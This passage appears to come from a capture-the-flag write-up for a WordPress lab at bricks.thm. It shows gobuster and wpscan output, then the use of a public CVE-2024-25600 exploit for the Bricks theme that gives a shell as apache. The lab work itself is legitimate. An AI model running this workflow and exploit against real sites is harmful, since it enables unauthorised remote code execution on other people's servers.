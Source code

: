 ```bash
  [+] User Agent:              gobuster/3.6
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /rss                  (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
  /login                (Status: 302) [Size: 0] [--> https://bricks.thm/wp-login.php]
  /0                    (Status: 301) [Size: 0] [--> https://bricks.thm/0/]
  /feed                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
  /atom                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/atom/]
  /s                    (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
  /b                    (Status: 301) [Size: 0] [--> https://bricks.thm/2024/04/02/brick-by-brick/]
  /wp-content           (Status: 301) [Size: 238] [--> https://bricks.thm/wp-content/]
  /admin                (Status: 302) [Size: 0] [--> https://bricks.thm/wp-admin/]
  /rss2                 (Status: 301) [Size: 0] [--> https://bricks.thm/feed/]
  /wp-includes          (Status: 301) [Size: 239] [--> https://bricks.thm/wp-includes/]
  /br                   (Status: 301) [Size: 0] [--> https://bricks.thm/2024/04/02/brick-by-brick/]
  /sa                   (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
  /rdf                  (Status: 301) [Size: 0] [--> https://bricks.thm/feed/rdf/]
  /page1                (Status: 301) [Size: 0] [--> https://bricks.thm/]
  /sample               (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
  /'                    (Status: 301) [Size: 0] [--> https://bricks.thm/]
  /dashboard            (Status: 302) [Size: 0] [--> https://bricks.thm/wp-admin/]
  /%20                  (Status: 301) [Size: 0] [--> https://bricks.thm/]
  /sam                  (Status: 301) [Size: 0] [--> https://bricks.thm/sample-page/]
  /wp-admin             (Status: 301) [Size: 236] [--> https://bricks.thm/wp-admin/]
  /phpmyadmin           (Status: 301) [Size: 238] [--> https://bricks.thm/phpmyadmin/]

```

The directory enumeration was misleading because most of the directories redirected either to a WordPress login page or to other subpages, which also displayed the brick wall again. I then performed a subdomain enumeration, but it didn't yield any new results. The directory enumeration revealed a WordPress installation, so I continued with `wpscan`, which identified an interesting plugin:
```bash
[...]
[+] WordPress version 6.5 identified (Insecure, released on 2024-04-02).
[...]
[+] WordPress theme in use: bricks
 | Version: 1.9.5 (80% confidence)
[...]
```

After researching the plugin, I discoverd an exploit for the Bricks theme on <a href="https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT">Github</a>. This gave me initial access, and I was able to retrieve the first flag:
```bash
$ python3 exploit.py -u https://bricks.thm/                                     

   _______    ________    ___   ____ ___  __ __       ___   ___________ ____  ____
  / ____/ |  / / ____/   |__ \ / __ \__ \/ // /      |__ \ / ____/ ___// __ \/ __ \
 / /    | | / / __/________/ // / / /_/ / // /_________/ //___ \/ __ \/ / / / / / /
/ /___  | |/ / /__/_____/ __// /_/ / __/__  __/_____/ __/____/ / /_/ / /_/ / /_/ /
\____/  |___/_____/    /____/\____/____/ /_/       /____/_____/\____/\____/\____/
    
Coded By: K3ysTr0K3R --> Hello, Friend!

[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm/
[*] Initiating interactive shell
[+] Interactive shell opened successfully
Shell> whoami
	apache
```